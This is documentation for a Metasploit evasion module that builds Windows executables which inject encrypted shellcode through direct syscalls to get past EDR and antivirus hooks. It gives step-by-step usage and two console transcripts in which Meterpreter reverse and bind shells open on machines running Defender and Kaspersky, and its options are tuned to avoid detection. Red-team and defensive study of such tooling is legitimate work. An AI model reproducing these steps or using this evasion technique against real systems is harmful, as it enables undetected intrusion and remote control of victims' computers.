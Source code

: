 ## Description
This module lets you create a Windows executable that injects a specific payload/shellcode in memory bypassing EDR/AVs Windows API hooking technique via direct syscalls achieved by Mingw's inline assembly.
Mingw needs (x86_64) to be installed on the system and in the PATH enviroment variable.

The technique used is based on Sorting by System Call Address, by enumerating all Zw* stubs in the EAT of NTDLL.dll and then sorting them by address, it still works even if syscall indices were overwritten by AVs.
[For more details](https://www.mdsec.co.uk/2020/12/bypassing-user-mode-hooks-and-direct-invocation-of-system-calls-for-red-teams/)

## Verification Steps
steps using a meterpreter/reverse_tcp payload on a 64-bits target:

1. `use evasion/windows/syscall_inject`
1. `set LHOST <local IP>`
1. `set payload windows/x64/meterpreter/reverse_tcp`
1. `handler -p windows/x64/meterpreter/reverse_tcp -H <local IP> -P <local port>`
1. `run`
1. Make sure that "Automatic Sample Submission" is off in Windows Defender
1. Copy the generated executable file to a specified location (e.g. target PC)  
1. Run it
1. Verify that you got a session without being blocked by Antimalware

## Options

### CIPHER
Encryption algorithm used to encrypt the payload. Available ones (XOR, RC4)

### FILENAME
Filename for the generated evasive file file. The default is random.

### JUNK
Adding random data such as names, emails and GUIDs to the final executable

### SLEEP
Specify how much (time x 2) the program sleeps prior to execute the shellcode's thread (NtCreateThread).
NOTE: the longer the better chance to avoid being detected.

## Advanced

### OptLevel
Optimization level passed to the compiler (Mingw)

## Scenarios
### Windows 10 (x64) version 20H2 with Defender
```
msf6 > use evasion/windows/syscall_inject 
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 evasion(windows/syscall_inject) > set SLEEP 10000
SLEEP => 10000
msf6 evasion(windows/syscall_inject) > set LHOST 192.168.1.104
LHOST => 192.168.1.104
msf6 evasion(windows/syscall_inject) > run

[+] pYlCSOAeW.exe stored at /Users/user/.msf4/local/pYlCSOAeW.exe
msf6 evasion(windows/syscall_inject) > cp  /Users/user/.msf4/local/pYlCSOAeW.exe ~
[*] exec: cp  /Users/user/.msf4/local/pYlCSOAeW.exe ~

msf6 evasion(windows/syscall_inject) > handler -p windows/x64/meterpreter/reverse_tcp -H 192.168.1.104 -P 4444
[*] Payload handler running as background job 1.

[*] Started reverse TCP handler on 192.168.1.104:4444 
msf6 evasion(windows/syscall_inject) > [*] Sending stage (200262 bytes) to 192.168.1.103
[*] Meterpreter session 3 opened (192.168.1.104:4444 -> 192.168.1.103:53007) at 2021-08-01 17:08:43 +0300

msf6 evasion(windows/syscall_inject) > sessions -i 3 
[*] Starting interaction with 3...

meterpreter > sysinfo 
Computer        : DESKTOP-822593D
OS              : Windows 10 (10.0 Build 19042).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.1.103 - Meterpreter session 3 closed.  Reason: User exit
```
### Windows server 2012 (x64) with Kaspersky 10.2.6.3733
```
msf6 > use evasion/windows/syscall_inject
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 evasion(windows/syscall_inject) > set payload windows/x64/meterpreter_bind_tcp 
payload => windows/x64/meterpreter_bind_tcp
msf6 evasion(windows/syscall_inject) > set RHOST 192.168.225.76
RHOST => 192.168.225.76
msf6 evasion(windows/syscall_inject) > set LPORT 10156
LPORT => 10156
msf6 evasion(windows/syscall_inject) > set cipher rc4
cipher => rc4
msf6 evasion(windows/syscall_inject) > run

[+] ShP.exe stored at /Users/medicus/.msf4/local/ShP.exe
msf6 evasion(windows/syscall_inject) > cp /Users/medicus/.msf4/local/ShP.exe ~
[*] exec: cp /Users/medicus/.msf4/local/ShP.exe ~

msf6 evasion(windows/syscall_inject) > handler -p windows/x64/meterpreter_bind_tcp -H 192.168.225.76 -P 10156
[*] Payload handler running as background job 0.

[*] Started bind TCP handler against 192.168.225.76:10156
msf6 evasion(windows/syscall_inject) > [*] Meterpreter session 1 opened (0.0.0.0:0 -> 192.168.225.76:10156) at 2021-08-01 17:32:05 +0300

msf6 evasion(windows/syscall_inject) > sessions -i 1 
[*] Starting interaction with 1...

meterpreter > sysinfo 
Computer        : LABCE28
OS              : Windows 2012 (6.2 Build 9200).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 386
Meterpreter     : x64/windows
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.225.76 - Meterpreter session 1 closed.  Reason: User exit
```


